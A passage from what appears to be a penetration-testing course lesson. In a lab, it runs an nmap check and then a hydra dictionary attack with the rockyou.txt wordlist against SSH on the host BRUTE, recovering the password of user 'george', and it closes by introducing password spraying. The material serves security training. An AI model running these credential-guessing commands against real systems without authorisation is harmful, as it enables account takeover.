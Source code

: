 The IP address of BRUTE may differ in your environment.

Before we start our dictionary attack, we should confirm that the target is running an SSH service on port 2222.

```
kali@kali:~$ sudo nmap -sV -p 2222 192.168.50.201
...
PORT   STATE SERVICE
2222/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
...
```

> Listing 1 - Checking if target is running a SSH service

The output indicates that SSH is open. Let's assume that through the _information gathering process_ we have already discovered the _george_ user.

It's worth noting that the format of the username also suggests that the company may use the first name of the user for account names. This information may assist us in later information gathering attempts.

Next, let's prepare to use the **rockyou.txt** wordlist file. Since the file is compressed to save space, we must uncompress it with [**gzip -d**](https://www.gnu.org/software/gzip/). Finally, we can run **hydra**.

We'll attack a single username with **\-l george**, specify the port with **\-s**, indicate our password list with **\-P** and define our target with **ssh://192.168.50.201**:

```
kali@kali:~$ cd /usr/share/wordlists/

kali@kali:~$ ls
dirb  dirbuster  fasttrack.txt  fern-wifi  metasploit  nmap.lst  rockyou.txt.gz  wfuzz

kali@kali:~$ sudo gzip -d rockyou.txt.gz

kali@kali:~$ hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
...
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.50.201:22/
[2222][ssh] host: 192.168.50.201   login: george   password: chocolate
1 of 1 target successfully completed, 1 valid password found
...
```

> Listing 2 - Unzipping Gzip Archive and attacking SSH

Good. We successfully used Hydra to discover a valid login for the _george_ user.

The dictionary attack worked because the password was contained in the **rockyou.txt** wordlist and we knew the name of the user we wanted to attack. However, if we didn't have valid usernames, we would use enumeration and information gathering techniques to find them. Alternatively, we could also attack built-in accounts such as _root_ (on Linux) or _Administrator_ (on Windows).

In this next example, we will attempt to use a single password against a variety of usernames in a technique known as [_password spraying_](https://owasp.org/www-community/attacks/Password_Spraying_Attack).
